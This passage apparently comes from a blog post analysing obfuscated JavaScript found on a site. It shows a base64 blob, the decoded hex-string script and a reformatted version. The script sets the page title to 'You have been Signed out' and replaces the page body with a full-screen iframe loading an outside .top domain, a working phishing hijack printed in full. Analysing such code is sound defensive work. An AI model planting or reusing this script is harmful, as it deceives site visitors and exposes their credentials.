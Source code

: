 XHgyNVx4M0JceDY4XHg2NVx4NjlceDY3XHg2OFx4NzRceDNBXHgzMVx4MzBceDMwXHgyNVx4MjJc
eDNFXHgzQ1x4MkZceDY5XHg2Nlx4NzJceDYxXHg2RFx4NjVceDNFIl07d2luZG93W18weGRjMGZb
MV1dW18weGRjMGZbMF1dPV8weGRjMGZbMl07dHJ5eyhmdW5jdGlvbigpe3ZhciBfMHg4NjM3eDE9
d2luZG93W18weGRjMGZbMV1dW18weGRjMGZbNF1dKF8weGRjMGZbM10pO18weDg2Mzd4MVtfMHhk
YzBmWzVdXT1fMHhkYzBmWzZdO18weDg2Mzd4MVtfMHhkYzBmWzddXT1fMHhkYzBmWzhdO18weDg2
Mzd4MVtfMHhkYzBmWzldXT1fMHhkYzBmWzEwXTtkb2N1bWVudFtfMHhkYzBmWzEzXV0oXzB4ZGMw
ZlsxMl0pWzBdW18weGRjMGZbMTFdXShfMHg4NjM3eDEpfSgpKX1jYXRjaChlKXt9O3dpbmRvd1tf
MHhkYzBmWzFdXVtfMHhkYzBmWzE1XV1bXzB4ZGMwZlsxNF1dPV8weGRjMGZbMTZd
{% endhighlight %}

Let's quickly decode it:

{% highlight javascript %}
var _0xdc0f=["\x74\x69\x74\x6C\x65","\x64\x6F\x63\x75\x6D\x65\x6E\x74","\x59\x6F\x75\x20\x68\x61\x76\x65\x20\x62\x65\x65\x6E\x20\x53\x69\x67\x6E\x65\x64\x20\x6F\x75\x74","\x6C\x69\x6E\x6B","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x74\x79\x70\x65","\x69\x6D\x61\x67\x65\x2F\x78\x2D\x69\x63\x6F\x6E","\x72\x65\x6C","\x73\x68\x6F\x72\x74\x63\x75\x74\x20\x69\x63\x6F\x6E","\x68\x72\x65\x66","","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65","\x6F\x75\x74\x65\x72\x48\x54\x4D\x4C","\x62\x6F\x64\x79","\x3C\x69\x66\x72\x61\x6D\x65\x20\x73\x72\x63\x3D\x22\x68\x74\x74\x70\x3A\x2F\x2F\x65\x78\x71\x75\x69\x73\x69\x74\x65\x72\x65\x77\x6F\x6F\x64\x73\x2E\x74\x6F\x70\x2F\x61\x62\x6F\x75\x74\x75\x73\x2F\x6F\x75\x72\x74\x65\x61\x6D\x6D\x65\x64\x69\x61\x70\x61\x72\x74\x6E\x65\x72\x73\x2E\x68\x74\x6D\x6C\x22\x20\x73\x74\x79\x6C\x65\x3D\x22\x62\x6F\x72\x64\x65\x72\x3A\x20\x30\x3B\x77\x69\x64\x74\x68\x3A\x20\x31\x30\x30\x25\x3B\x68\x65\x69\x67\x68\x74\x3A\x31\x30\x30\x25\x22\x3E\x3C\x2F\x69\x66\x72\x61\x6D\x65\x3E"];window[_0xdc0f[1]][_0xdc0f[0]]=_0xdc0f[2];try{(function(){var _0x8637x1=window[_0xdc0f[1]][_0xdc0f[4]](_0xdc0f[3]);_0x8637x1[_0xdc0f[5]]=_0xdc0f[6];_0x8637x1[_0xdc0f[7]]=_0xdc0f[8];_0x8637x1[_0xdc0f[9]]=_0xdc0f[10];document[_0xdc0f[13]](_0xdc0f[12])[0][_0xdc0f[11]](_0x8637x1)}())}catch(e){};window[_0xdc0f[1]][_0xdc0f[15]][_0xdc0f[14]]=_0xdc0f[16]
{% endhighlight %}

Uh oh. Challenge accepted!

Let's format it to become a bit more readable:

{% highlight javascript %}
var _0xdc0f = ["\x74\x69\x74\x6C\x65", "\x64\x6F\x63\x75\x6D\x65\x6E\x74", "\x59\x6F\x75\x20\x68\x61\x76\x65\x20\x62\x65\x65\x6E\x20\x53\x69\x67\x6E\x65\x64\x20\x6F\x75\x74", "\x6C\x69\x6E\x6B", "\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74", "\x74\x79\x70\x65", "\x69\x6D\x61\x67\x65\x2F\x78\x2D\x69\x63\x6F\x6E", "\x72\x65\x6C", "\x73\x68\x6F\x72\x74\x63\x75\x74\x20\x69\x63\x6F\x6E", "\x68\x72\x65\x66", "", "\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64", "\x68\x65\x61\x64", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65", "\x6F\x75\x74\x65\x72\x48\x54\x4D\x4C", "\x62\x6F\x64\x79", "\x3C\x69\x66\x72\x61\x6D\x65\x20\x73\x72\x63\x3D\x22\x68\x74\x74\x70\x3A\x2F\x2F\x65\x78\x71\x75\x69\x73\x69\x74\x65\x72\x65\x77\x6F\x6F\x64\x73\x2E\x74\x6F\x70\x2F\x61\x62\x6F\x75\x74\x75\x73\x2F\x6F\x75\x72\x74\x65\x61\x6D\x6D\x65\x64\x69\x61\x70\x61\x72\x74\x6E\x65\x72\x73\x2E\x68\x74\x6D\x6C\x22\x20\x73\x74\x79\x6C\x65\x3D\x22\x62\x6F\x72\x64\x65\x72\x3A\x20\x30\x3B\x77\x69\x64\x74\x68\x3A\x20\x31\x30\x30\x25\x3B\x68\x65\x69\x67\x68\x74\x3A\x31\x30\x30\x25\x22\x3E\x3C\x2F\x69\x66\x72\x61\x6D\x65\x3E"];
window[_0xdc0f[1]][_0xdc0f[0]] = _0xdc0f[2];
try {
    (function() {
        var _0x8637x1 = window[_0xdc0f[1]][_0xdc0f[4]](_0xdc0f[3]);
        _0x8637x1[_0xdc0f[5]] = _0xdc0f[6];
        _0x8637x1[_0xdc0f[7]] = _0xdc0f[8];
        _0x8637x1[_0xdc0f[9]] = _0xdc0f[10];
        document[_0xdc0f[13]](_0xdc0f[12])[0][_0xdc0f[11]](_0x8637x1)
    }())
} catch (e) {};
window[_0xdc0f[1]][_0xdc0f[15]][_0xdc0f[14]] = _0xdc0f[16]
{% endhighlight %}
